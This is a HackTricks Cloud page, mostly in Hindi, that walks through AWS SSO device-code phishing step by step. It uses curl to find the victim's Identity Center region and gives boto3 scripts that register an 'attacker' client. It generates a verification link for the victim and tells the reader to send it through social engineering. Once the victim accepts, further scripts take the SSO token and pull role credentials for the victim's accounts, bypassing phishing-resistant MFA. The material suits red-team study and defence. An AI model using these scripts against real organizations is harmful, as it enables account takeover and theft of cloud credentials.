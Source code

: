 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS डिवाइस कोड फ़िशिंग

शुरुआत में [**इस ब्लॉग पोस्ट**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) में प्रस्तावित, यह संभव है कि AWS SSO का उपयोग करते हुए एक **लिंक** एक उपयोगकर्ता को भेजा जाए, यदि **उपयोगकर्ता स्वीकार करता है** तो हमलावर को **उपयोगकर्ता का अनुकरण करने के लिए एक टोकन प्राप्त होगा** और वह सभी भूमिकाओं तक पहुँच प्राप्त कर सकेगा जिन तक उपयोगकर्ता पहुँच सकता है **Identity Center** में।

इस हमले को करने के लिए आवश्यकताएँ हैं:

* पीड़ित को **Identity Center** का उपयोग करना होगा
* हमलावर को पीड़ित द्वारा उपयोग किए जाने वाले **उपडोमेन** का पता होना चाहिए `<victimsub>.awsapps.com/start`

सिर्फ पिछले जानकारी के साथ, **हमलावर उपयोगकर्ता को एक लिंक भेजने में सक्षम होगा** जो यदि **स्वीकृत** किया गया तो **हमलावर को AWS उपयोगकर्ता** खाते पर पहुँच प्रदान करेगा।

### हमला

1. **उपडोमेन खोजना**

हमलावर का पहला कदम यह पता लगाना है कि पीड़ित कंपनी अपने Identity Center में कौन सा उपडोमेन उपयोग कर रही है। यह **OSINT** या **अनुमान + BF** के माध्यम से किया जा सकता है क्योंकि अधिकांश कंपनियाँ यहाँ अपने नाम या उनके नाम का एक भिन्न रूप उपयोग कर रही होंगी।

इस जानकारी के साथ, यह संभव है कि उस क्षेत्र को प्राप्त किया जा सके जहाँ Identity Center को कॉन्फ़िगर किया गया था:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **शिकार के लिए लिंक उत्पन्न करें और इसे भेजें**

AWS SSO लॉगिन लिंक उत्पन्न करने के लिए निम्नलिखित कोड चलाएँ ताकि शिकारकर्ता प्रमाणीकरण कर सके।\
डेमो के लिए, इस कोड को एक पायथन कंसोल में चलाएँ और इसे बंद न करें क्योंकि बाद में आपको टोकन प्राप्त करने के लिए कुछ ऑब्जेक्ट्स की आवश्यकता होगी:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using your awesome social engineering skills!

3. **इंतज़ार करें जब तक पीड़ित इसे स्वीकार न कर ले**

यदि पीड़ित **पहले से AWS में लॉग इन था** तो उसे केवल अनुमतियाँ देने के लिए स्वीकार करना होगा, यदि वह नहीं था, तो उसे **लॉग इन करना होगा और फिर अनुमतियाँ देने के लिए स्वीकार करना होगा**।\
यहाँ आजकल प्रॉम्प्ट कैसा दिखता है:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO एक्सेस टोकन प्राप्त करें**

यदि पीड़ित ने प्रॉम्प्ट स्वीकार कर लिया, तो इस कोड को चलाएँ ताकि **उपयोगकर्ता का अनुकरण करते हुए SSO टोकन उत्पन्न किया जा सके**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO एक्सेस टोकन **8 घंटे के लिए मान्य** है।

5. **उपयोगकर्ता का अनुकरण करें**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

यह जानकर मज़ा आता है कि पिछला हमला **काम करता है भले ही "unphisable MFA" (webAuth) का उपयोग किया जा रहा हो**। इसका कारण यह है कि पिछला **कार्यप्रवाह कभी भी उपयोग किए गए OAuth डोमेन को नहीं छोड़ता**। अन्य फ़िशिंग हमलों की तरह नहीं जहां उपयोगकर्ता को लॉगिन डोमेन को प्रतिस्थापित करने की आवश्यकता होती है, इस मामले में डिवाइस कोड कार्यप्रवाह इस तरह से तैयार किया गया है कि **कोड एक डिवाइस द्वारा जाना जाता है** और उपयोगकर्ता एक अलग मशीन में भी लॉगिन कर सकता है। यदि प्रॉम्प्ट को स्वीकार किया जाता है, तो डिवाइस, केवल **प्रारंभिक कोड को जानकर**, उपयोगकर्ता के लिए **क्रेडेंशियल्स पुनः प्राप्त करने में सक्षम होगा**।

इस बारे में अधिक जानकारी के लिए [**इस पोस्ट को देखें**](https://mjg59.dreamwidth.org/62175.html)।

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
